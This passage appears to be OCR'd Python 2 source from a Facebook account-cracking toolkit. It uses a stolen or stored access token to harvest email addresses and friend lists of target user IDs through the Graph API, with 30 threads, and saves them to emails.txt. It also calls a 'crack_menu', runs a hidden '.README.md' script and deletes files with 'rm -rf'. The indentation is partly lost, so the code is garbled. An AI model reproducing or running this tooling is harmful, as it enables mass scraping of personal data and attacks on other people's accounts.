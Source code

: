 def main(arg):
	global cpb,oks
	user = arg
	try:
		data = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
		q = json.loads(data.text)
		if "email" not in q:
			pass
		else:
			if "email" in q:
			    gms = q["email"]
			    print (user + "  |  " + gms + "\n")
			    bms.open("emails.txt", "a")
			    bms.write(user + "  |  " + gms + "\n")
			    bms.close()
																
														
	except:
		pass
	
p = ThreadPool(30)
p.map(main, id)
print (50*"-")
print ("[✓] Process Has Been Completed ....")
print("[✓] File Has Been Saved : emails.txt")
raw_input("\n[Back]")
if xxx == "0":
	crack_menu()
else:
	os.system("python2 .README.md")
def gbnmbr():
global toket
os.system("clear")
try:
toket=open("....","r").read()
except IOError:
print("[!] Token invalid")
os.system("rm -rf ....")
time.sleep(1)
os.system("python2 bxi.py")
else:
agbn()

def agbn():
bch = ("2")
if bch =="":
print ("[!] Fill in correctly")
agbn()
elif bch =="2":
os.system("clear")
print (logo)
idt = raw_input("[✓] Enter ID : ")
os.system("clear")
print (logo)
try:
jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
op = json.loads(jok.text)
psb("[✓] Account Name: "+op["name"])
time.sleep(0.5)
except KeyError:
print("[!] ID Not Found!")
raw_input("\n[Back]")
gbnmbr()
r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
z = json.loads(r.text)